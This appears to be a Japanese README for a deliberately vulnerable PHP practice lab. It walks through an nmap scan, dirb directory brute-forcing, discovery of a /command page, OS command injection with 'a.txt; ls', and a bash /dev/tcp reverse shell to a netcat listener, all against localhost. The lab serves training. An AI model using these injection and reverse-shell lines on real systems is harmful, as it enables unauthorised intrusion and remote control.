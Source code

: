 # vulnable_sample
ツールの使い方を簡単に実践するための簡単な環境．バイト先向けの即席で作ったやつだからCSSとか使ってないけど気にしないで...
## use
### easy use way
```php -S localhost:8080```
### exploit
ポートスキャン  
```
nmap -p- localhost
> 8080/tcp closed http-proxy
```
ディレクトリブルートフォース　　
```
dirb http://localhost /usr/share/dirb/wordlists/common.txt
> + http://localhost:8080/command (CODE:200|SIZE:434)                       
> + http://localhost:8080/robots.txt (CODE:200|SIZE:32)
```
web調査
```
ブラウザでhttp://localhost:8080を開くと空ページ  
robots.txtを確認するとcommandというページがある事がわかる  
/commandにアクセスするとOpen Fileというページ  
ソースコードを見るとサイトの使い方が書いている  
```
エクスプロイト
```
OSコマンドインジェクションを行える
a.txt; ls
でlsコマンドが実行できる
```
リバースシェル
```
# 手元のPCで実行
nc -nvlp 1234
```
```
# 対象のPCに対して
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```
---
以上の流れでサーバのIPアドレスだけからWebページが空いている事を見つけて，よくあるrobots.txtからのディレクトリの発見や，表からは見えないディレクトリの発見を行う．そこから，ソースコードの情報を元に攻撃方法を推測しコマンド実行を行う(ファイルを読み込んでるのか他の方法OSコマンドからファイルを出力してるのか...).攻撃をより行いやすいようにリバースシェルの接続を行う．

